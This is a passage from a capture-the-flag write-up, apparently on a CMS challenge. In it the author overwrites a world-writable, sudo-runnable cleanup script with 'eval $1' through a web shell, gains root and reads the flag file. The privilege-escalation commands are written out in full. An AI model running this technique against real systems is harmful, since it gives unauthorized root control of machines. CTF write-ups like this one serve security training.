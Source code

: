 It's a Python script that removes files in a folder. Nothing interesting in the script itself, so I ran `ls -l` to view the permissions on this file.

```
> ls -l /opt/scripts/mycleaner
-rwxrwxrwx 1 www-data www-data 127 May 11 10:56 /opt/scripts/mycleaner
```

Great! There is a write permission so it can be edited. Since I couldn't use nano or vim in this web shell, I used `echo` for editing. I changed it to a bash script which runs `whoami`.

```
> echo "#!/bin/bash\nwhoami" > /opt/scripts/mycleaner

> sudo /opt/scripts/mycleaner
root
```

It worked! Then I changed it to run any command using `eval` and command line arguments.

```
> echo "#!/bin/bash\neval \$1" > /opt/scripts/mycleaner

> cat /opt/scripts/mycleaner
#!/bin/bash
eval $1

> sudo /opt/scripts/mycleaner whoami
root
```

This was a bit of an overkill for getting `root.txt` but it was a fun thing to do. I changed my Python script a bit so every command I run is being run as root.

```py
command = urllib.parse.quote_plus('sudo /opt/scripts/mycleaner "' + input("> ") + '"')
```

```
> whoami
root

> ls -la ~
total 20
drwx------ 1 root root 4096 May 11 10:56 .
drwxr-xr-x 1 root root 4096 Jul 18 17:40 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw------- 1 root root   28 May 11 10:56 root.txt

> cat ~/root.txt
FLAG{DZIVI:7283456896-ROOT}
```

And here is the flag! Hacking the CMS was fun, let's move on.

## Air Intake to the gold - Gold means 1 — 150 points
